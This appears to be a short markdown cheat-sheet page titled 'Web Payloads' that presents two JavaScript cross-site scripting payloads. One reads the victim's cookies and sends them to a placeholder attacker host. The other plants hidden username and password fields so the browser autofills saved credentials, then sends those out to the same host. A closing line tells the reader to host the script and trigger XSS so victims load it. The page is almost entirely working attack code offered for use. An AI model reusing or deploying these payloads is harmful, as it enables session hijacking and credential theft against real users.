 ```yaml
---
title: Web Payloads
published: true
---
```




### [](#header-3)Cookie Stealer:

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<LHOST-IP>/exfil?data=" + encodedCookie)
```

[](#header-3)Steal Saved Passwords:

```js
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
body.append(u)
body.append(p)

setTimeout(function(){ 
fetch("http://<LHOST-IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```

Host these files as a .js file, and try to trigger XSS to have the victim reach out and load the js.
